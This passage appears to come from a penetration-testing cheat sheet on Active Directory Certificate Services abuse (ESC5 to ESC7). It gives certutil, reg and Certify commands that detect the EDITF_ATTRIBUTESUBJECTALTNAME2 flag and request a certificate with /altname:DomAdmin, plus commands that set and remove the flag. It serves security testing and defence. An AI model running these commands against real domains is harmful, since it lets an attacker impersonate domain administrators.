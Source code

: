 ...



### Vulnerable PKI Object ACEs (ESC5)

...



### `EDITF_ATTRIBUTESUBJECTALTNAME2` (ESC6)

> If this flag is set on the CA, any request (including when the subject is built from Active Directory) can have user defined values in the subject alternative name.

This means that an adversary can enroll in **any** template configured for domain authentication that also allows unprivileged users to enroll (e.g., the default `User` template) and obtain a certificate that allows to authenticate as a domain admin or any other active user/machine.

Discover with certutil:

```
Cmd > certutil.exe -config "CA01.megacorp.local\CA01" -getreg "policy\EditFlags"
Or
Cmd > reg.exe query \\CA01.megacorp.local\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\CA01\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy\ /v EditFlags
```

Discover with Certify:

```
Cmd > .\Certify.exe find
```

To abuse request a certificate specifying an `/altname` with any template that allows for domain auth (e.g., the default `User` template which normally doesn't allow to specify alternative names):

```
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CA01 /template:User /altname:DomAdmin
```

This setting can be set with domain admin's privileges like this (*dangerous, do not do this!*):

```
Cmd > certutil.exe -config "CA01.megacorp.local\CA01" -setreg "policy\EditFlags" +EDITF_ATTRIBUTESUBJECTALTNAME2
```

Remove this setting:

```
Cmd > certutil.exe -config "CA01.megacorp.local\CA01" -setreg "policy\EditFlags" -EDITF_ATTRIBUTESUBJECTALTNAME2
```



### Vulnerable CA ACEs (ESC7)

Enumarate CA ACEs with Powershell [PSPKI](https://github.com/PKISolutions/PSPKI):

```
PS > Install-Module -Name PSPKI
PS > Import-Module PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA01.megacorp.local | Get-CertificationAuthorityAcl | select -ExpandProperty access
```
